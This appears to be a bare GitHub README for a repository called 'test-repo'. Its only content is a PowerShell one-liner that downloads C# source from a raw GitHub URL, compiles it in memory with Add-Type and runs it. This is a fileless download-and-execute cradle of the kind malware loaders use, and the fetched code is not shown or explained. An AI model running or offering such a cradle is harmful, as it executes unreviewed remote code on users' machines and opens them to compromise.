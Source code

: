 # test-repo

powershell: ```
Add-Type -TypeDefinition (new-object net.webclient).downloadstring("https://raw.githubusercontent.com/0x59R11/test-repo/main/code.cs") -Language CSharp;[Runner]::Run()```
